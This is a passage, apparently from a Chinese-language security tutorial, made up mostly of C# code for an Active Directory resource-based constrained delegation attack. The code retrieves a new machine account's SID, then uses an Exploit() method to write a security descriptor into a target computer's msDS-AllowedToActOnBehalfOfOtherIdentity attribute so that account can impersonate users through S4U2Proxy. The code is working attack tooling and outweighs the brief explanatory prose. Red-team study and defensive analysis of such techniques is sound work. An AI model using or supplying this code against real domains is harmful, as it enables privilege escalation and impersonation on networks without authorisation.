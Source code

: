```c#
    // Get SID of the new computer object
    SearchResultEntryCollection Entries = GetSearchResultEntries(DistinguishedName, "(&(samAccountType=805306369)(|(name=" + MachineAccount + ")))", System.DirectoryServices.Protocols.SearchScope.Subtree, null);
    foreach (SearchResultEntry entry in Entries)
    {
        try
        {
            securityIdentifier = new SecurityIdentifier(entry.Attributes["objectSid"][0] as byte[], 0);
            Console.WriteLine($"[*] Sid of the new machine account: {securityIdentifier.Value}.");
        }
        catch
        {
            Console.WriteLine("[-] Can not retrieve the sid.");
        }
    }
    return securityIdentifier;
}
```

### Set the RBCD of The Target Machine Account

最后，通过 `ModifyRequest` 将新机器账户的 SID 添加到目标机器账户的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中，以设置从新机器帐户到目标帐户的基于资源的约束性委派（RBCD）。

```c#
public void Exploit()
{
    string NewMachineDN = $"CN={this.MachineAccount},CN=Computers," + this.RootDN;
                        
    SecurityIdentifier securityIdentifier = AddComputer(this.Domain, NewMachineDN, this.MachineAccount, this.MachinePassword);
    string nTSecurityDescriptor = "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;" + securityIdentifier + ")";
    RawSecurityDescriptor rawSecurityIdentifier = new RawSecurityDescriptor(nTSecurityDescriptor);
    byte[] DescriptorBuffer = new byte[rawSecurityIdentifier.BinaryLength];
    rawSecurityIdentifier.GetBinaryForm(DescriptorBuffer, 0);

    ModifyRequest modifyRequest = new ModifyRequest(this.TargetMachineDN, DirectoryAttributeOperation.Replace, "msDS-AllowedToActOnBehalfOfOtherIdentity", DescriptorBuffer);
    try
    {
        ModifyResponse modifyResponse = (ModifyResponse) this.connection.SendRequest(modifyRequest);
        Console.WriteLine($"[*] {this.MachineAccount}$ can now impersonate users on {this.TargetMachineDN} via S4U2Proxy.");
    }
    catch
    {
        Console.WriteLine("[-] Could not modify attribute msDS-AllowedToActOnBehalfOfOtherIdentity, check that your user has sufficient rights.");
    }
}
```

